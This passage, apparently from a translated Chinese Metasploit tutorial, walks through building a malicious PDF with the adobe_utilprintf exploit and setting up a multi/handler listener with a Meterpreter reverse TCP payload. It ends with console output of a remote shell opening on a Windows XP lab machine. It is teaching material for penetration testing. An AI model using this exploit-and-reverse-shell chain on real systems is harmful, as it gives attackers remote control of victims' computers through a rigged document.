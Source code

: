 ```
msf exploit(adobe_utilprintf) > exploit
[*] Creating 'progressreport.pdf' file...
[+] progressreport.pdf stored at /root/.msf4/local/progressreport.pdf 
```

最后，一个名为`progressreport.pdf`的恶意 PDF 文件已经被创建并存储在`/root/.msf4/local`文件夹中。

这一次，我们将采用稍微不同的方法来启动反向连接的监听器。假设有一种情况，当你不得不突然关闭你的 msfconsole 时。那么漏洞利用怎么办？我们需要再次创建恶意 PDF 吗？答案是否定的。Metasploit 中有一个特殊的监听器模块，可以用来在 msfconsole 上启动监听器，这样你就可以使用为客户端攻击生成的相同文件/链接继续进行渗透测试过程。假设我们已经生成了恶意 PDF 文件，但尚未用于客户端攻击。所以让我们再次启动 msfconsole，并使用`exploit/multi/handler`模块设置反向连接的监听器。

```
msf > use exploit/multi/handler
msf exploit(handler) > show options
Module options (exploit/multi/handler):
Name Current Setting Required Description
---- --------------- -------- -----------
Exploit target:
Id Name
-- ----
0 Wildcard Target
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > show options
Module options (exploit/multi/handler):
Name Current Setting Required Description
---- --------------- -------- -----------
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: she..
LHOST yes The listen address
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Wildcard Target
msf exploit(handler) > set LHOST 192.168.56.101
LHOST => 192.168.56.101 
```

如你所见，我们已经设置了模块`multi/handler`，然后我们还为其添加了有效载荷。下一步是根据使用情况添加`LHOST`和`LPORT`。我们还有一个额外的选项，可以在 multi/handler 模块中运行额外的脚本。我们将在下一章中讨论它。最后一步是执行漏洞利用命令并启动监听器。

```
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.56.101:4444 
```

所以我们的反向处理程序已经启动并运行。现在它已经准备好在目标机器上恶意 PDF 被执行后接收连接。

一旦 PDF 在客户端机器上执行，它会完全冻结，Adobe Reader 会完全挂起，导致服务拒绝。这次崩溃的原因是由于恶意 PDF 文件引起的缓冲区溢出。在攻击者端，你会看到一个 meterpreter 会话已经启动，现在目标机器可以远程处理。

```
[*] Started reverse handler on 192.168.56.101:4444
[*] Starting the payload handler...
[*] Sending stage (752128 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.102:1035) at 2011-11-25 12:29:36 +0530
meterpreter > shell
Process 1880 created.
Channel 1 created.
Microsoft Windows XP SP3
(C) Copyright 1985-2001 Microsoft Corp.
E:\> 
```

